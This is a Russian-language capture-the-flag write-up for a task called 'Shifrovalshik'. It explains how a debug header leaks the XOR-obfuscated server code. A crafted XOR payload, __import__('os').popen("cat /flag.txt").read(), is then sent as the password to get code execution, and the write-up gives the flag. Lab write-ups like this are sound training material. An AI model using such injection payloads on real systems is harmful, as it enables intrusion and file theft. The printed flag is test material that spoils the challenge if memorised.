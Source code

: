 # Shifrovalshik

***Описание***: Администратор, опасаясь утечки своего ценного кода, разработал систему защиты, но кажется в ней что-то не так, посмотришь?

Ссылка: `http://localhost:5000`

Формат: EclipseCTF{...}

---

***Решение***:

Переходим в браузер, на `http://localhost:5000`

![ScreenShot](Assets/For_Tasks/shifrovalshik-1.png)

Нам необходимо ввести пароль. Пробуем:

![ScreenShot](Assets/For_Tasks/shifrovalshik-2.png)

Смотрим код и замечаем генерацию пароля для администратора:

```python
from utils import obf  
key, outcode = obf()  
print("ADMIN PASSWORD: ", key)
```

Посмотрим функцию `obf`:

```python
def obf():
    key = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(len(code)))
    out_code = [chr(ord(a) ^ ord(b)) for a,b in zip(key,code)]
    os.remove("code.txt")
    return key, out_code
```

При запуске создается файл `code.txt` с кодом, а затем делается XOR с рандомной строкой длиной кода. Имея заголовок `debug`, мы можем сделать XOR с нашим кодом

```python
resp.headers['debug'] = "".join(outcode).encode().hex()
```

![ScreenShot](Assets/For_Tasks/shifrovalshik-3.png)

Делаем XOR где в виде ключа будет содержимое `debug`, а в тексте необходимый нам код (для примера чтение флага):

```python
__import__('os').popen("cat /flag.txt").read()
```

```
https://cyberchef.org/#recipe=XOR(%7B'option':'Hex','string':'xxx'%7D,'Standard',false)URL_Encode(true)&input=X19pbXBvcnRfXygnb3MnKS5wb3BlbigiY2F0IC9mbGFnLnR4dCIpLnJlYWQoKQ
```

![ScreenShot](Assets/For_Tasks/shifrovalshik-4.png)

Вставляем полученную строку в GET  параметр `password` и получаем флаг

![ScreenShot](Assets/For_Tasks/shifrovalshik-5.png)

---

***Флаг***: `EclipseCTF{Th1s_Pa$$w0rD_1S_f0R_Rc6}`